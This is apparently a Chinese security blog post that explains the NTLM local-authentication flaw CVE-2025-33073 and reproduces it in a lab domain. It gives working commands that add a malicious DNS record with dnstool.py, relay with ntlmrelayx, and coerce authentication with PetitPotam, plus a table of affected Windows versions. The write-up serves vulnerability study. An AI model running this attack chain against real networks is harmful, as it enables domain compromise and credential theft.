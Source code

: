 #  域大杀器 CVE-2025-33073 NTLM反射  
 哈拉少安全小队   2025-06-16 05:54  
  
#   
## CVE-2025-33073  
### 本地 NTLM 身份验证  
  
NTLM 本地身份验证  
是 NTLM 身份验证的一种特殊情况正常 NTLM 认证是三个阶段  
1. NEGOTIATE  
  
1. CHALLENGE  
  
1. AUTHENTICATE，  
  
如果客户端和服务器被判定为“本地调用”，服务器在 CHALLENGE 阶段就指示客户端无需计算 NTLM 响应，而是直接将 当前令牌（如 SYSTEM）传给服务器使用。  
> 关键标志位是：NTLMSSP_NEGOTIATE_LOCAL_CALL (0x4000)  
> 被放在 NTLM_CHALLENGE 消息中，提示客户端走本地身份验证流程。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lm5zHLHYICRNxNzOEfbJF1ibeQXrchhoibG4L8dzwT1z37hzu0d8P3obg/640?wx_fmt=png&from=appmsg "")  
  
当服务器判断“你连的是本地机器”时，它会启用一个特殊机制来省略加密计算，直接共享进程令牌，流程变为：  
1. 客户端发送 NEGOTIATE  
  
➜ 包含工作站名和域名，服务器一看：咦？你是我自己！  
  
1. 服务器返回 CHALLENGE  
  
设置   
NTLMSSP_NEGOTIATE_LOCAL_CALL  
  
 附带一个“上下文 ID”，用来代表我在本机 lsass 进程中建了一个 context。  
  
1. 客户端一看是本地调用  
  
 它就不计算 NTLM 响应，而是：  
  
把自己当前的 Token（例如 SYSTEM）加入服务器那个上下文中  
  
1. 客户端发回 AUTHENTICATE（几乎是空的！）  
  
➜ 不包含加密回应，只带一个 ID，告诉服务器：我已经把 Token 放到你那儿了。  
  
1. 服务器拿着 Token 开始模拟进行操作  
  
### 漏洞复现  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n53" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">IP</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n54" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">系统</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n55" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">说明</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n57" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.8</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n58" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">kali</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n59" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">攻击机</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n61" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.33（</span></span><span md-inline="link" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">srv.redteam.com</span></span></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">）</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n62" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Win2016</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n63" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">目标机器</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n65" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.34 (</span></span><span md-inline="link" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">dc.redteam.com</span></span></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">)</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n66" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Win2016</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n67" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">DNS、DC机器</span></span></span></td></tr></tbody></table>  
添加恶意dns解析  
```
python3 dnstool.py -u 'redteam\john' -p 'user@123' 10.211.55.33 -a add -r srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.211.55.8
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lYqT08YwWXCtTP764TyNRaibeUcFc4vkhEomWjwUe3jZ8txicyTNpQTzw/640?wx_fmt=png&from=appmsg "")  
  
监听请求  
```
impacket-ntlmrelayx-tsrv.redteam.com-smb2support
```  
```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lcWiaICE5h6OVXgnXIYsK6AocGtOOjZL1icl9d4eckwKI5RiaWRmjQonvg/640?wx_fmt=png&from=appmsg "")  
  
  
触发强制连接  
```
python3 PetitPotam.py -u john -p 'user@123' -d redteam.com srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA srv.redteam.com         
```  
  
成功触发获取hash  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lqIqfdPwxQCoZR9ics5gIe41mkeEOh2eLbHibbmfjODibk8joxlibjib0wYg/640?wx_fmt=png&from=appmsg "")  
  
### 漏洞影响范围  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n82" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">操作系统/版本</span></span></strong></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n83" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">是否受影响</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n84" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">说明</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n86" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 11（22H2、23H2、24H2）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n87" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n88" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">默认情况下得到缓解；MS-EFSRPC 得到强化并且 NTLM 的使用受到限制。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n90" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2025（预览版）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n91" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n92" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">最新版本默认已阻止强制执行。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n94" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2022</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n95" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n96" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">发布前已修补；默认情况下缓解 MS-EFSRPC。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n98" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 服务器 2019</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n99" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n100" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">除非完全修补并配置 NTLM 限制，否则仍然有效。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n102" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 服务器 2016</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n103" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n104" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">MS-EFSRPC 接口仍然可用；默认允许 NTLM。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n106" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2012 R2</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n107" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n108" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">强制开箱即用；需要手动强化。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n110" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2008 R2</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n111" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n112" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">如果未修补则完全容易受到攻击；没有默认缓解措施。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n114" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 10（最高至 21H2）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n115" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n116" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">除非修补，否则容易受到攻击；如果启用了 NTLM，EFSRPC 强制就会起作用。</span></span></span></td></tr></tbody></table>### 参考连接  
  
https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  
  
https://github.com/mverschu/CVE-2025-33073  
  

